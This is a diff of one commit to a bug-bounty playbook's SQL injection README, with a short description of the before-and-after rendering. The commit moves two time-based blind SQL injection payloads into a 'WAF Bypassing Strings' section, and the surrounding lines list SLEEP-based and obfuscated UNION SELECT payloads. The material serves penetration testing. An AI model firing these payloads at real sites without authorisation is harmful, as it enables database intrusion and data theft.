

Before and after one commit to ehpavan/Pavan-BugBounty-PlayBook, a Markdown page: SQL Injection/README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/SQL Injection/README.md
+++ b/SQL Injection/README.md
@@ -57,8 +57,6 @@ Try Below Techniques:
 1 AND SLEEP(5)--
 ' OR IF(1=1, SLEEP(5), 0)--
 ' AND (SELECT * FROM users LIMIT 1) AND SLEEP(5)--
-/‘XOR(if(now()=sysdate(),sleep(8),0))XOR’111/
-/page/‘XOR(if(now()=sysdate(),sleep(8),0))XOR’111/test.test
 
  ```
 ### MSSQL (Microsoft SQL Server)
@@ -136,6 +134,8 @@ Bypassing WAF: Blind SQL Injection Using logical requests AND/OR • The followi
 # WAF Bypassing Strings
 
 ```
+/‘XOR(if(now()=sysdate(),sleep(8),0))XOR’111/
+/page/‘XOR(if(now()=sysdate(),sleep(8),0))XOR’111/test.test
 ` /!%55NiOn/ /!%53eLEct/
 %55nion(%53elect 1,2,3)– -
 +union+distinct+select+
````
